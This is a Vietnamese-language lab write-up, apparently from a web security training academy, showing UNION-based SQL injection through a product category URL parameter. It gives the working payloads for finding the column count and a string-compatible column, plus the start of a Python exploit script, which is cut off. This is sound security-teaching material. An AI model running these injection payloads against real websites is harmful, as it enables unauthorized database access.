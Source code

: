 ![image](https://hackmd.io/_uploads/BJqCGvnca.png)

### Phân tích

- Lab này có chứa lỗ hổng SQL Injection ở cơ chế lọc category. Giờ mình cần phải thực hiện tấn công kiểu UNION để tìm được cột nào đang ở dạng string
- Chúng ta có thể sử dụng chức năng bộ lọc hiển thị sản phẩm theo loại, được xác định qua tham số category trong thanh URL truyền tới hệ thống qua phương thức GET. Tham số này có thể thay đổi tùy ý. Giá trị này cũng được hiển thị trong giao diện response.
- mình gửi single quote và nhận phản hồi lỗi 500 từ phía server cho thấy web này có thể dính lỗi sqli

![image](https://hackmd.io/_uploads/Hkyfuco96.png)

- Chúng ta cần giao diện response hiển thi chuỗi **'cvdKvm'**. Kiểm tra lỗ hổng SQL injection tại tham số category:

![image](https://hackmd.io/_uploads/SJ5Axun56.png)

### Khai thác

- như bài trước mình cần xác định số cộttrước của table và với payload: `/filter?category=' UNION SELECT NULL, NULL, NULL--` không trả về error.

![image](https://hackmd.io/_uploads/SJNhNDh5T.png)

sau khi được số cột cuat table là 3 mình cần xác định cột nào có kiểu string để chèn chuỗi ` 'sXPvlw'` vào

- Kiểm tra kiểu dữ liệu trả về trong cột 1. Payload: `/filter?category=' UNION SELECT 'colume1', NULL, NULL--` trả về error:

![image](https://hackmd.io/_uploads/H1KEOv2ca.png)

- Kiểm tra kiểu dữ liệu trả về trong cột 1. Payload: `/filter?category=' UNION SELECT NULL, 'colume2', NULL--` trả về chuỗi column2 trong giao diện:

![image](https://hackmd.io/_uploads/SkiPdDh5p.png)

![image](https://hackmd.io/_uploads/HkDmKDhcp.png)

Như vậy dữ liệu trong cột 2 tương thích với kiểu dữ liệu string. Hiển thị chuỗi pYazDc trong giao diện. Payload: `/filter?category=' UNION SELECT NULL, 'cvdKvm', NULL--`

![image](https://hackmd.io/_uploads/ByrTXOhqT.png)

mình đã viết script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a4c007504a579df838bcdac004c0033.web-security-academy.net'

session = requests.Session()
response = session.get(
    url,
    verify=False,
)
pattern = r"Make the database retrieve the string: '\w{6}'"
match = re.search(pattern, response.text)
```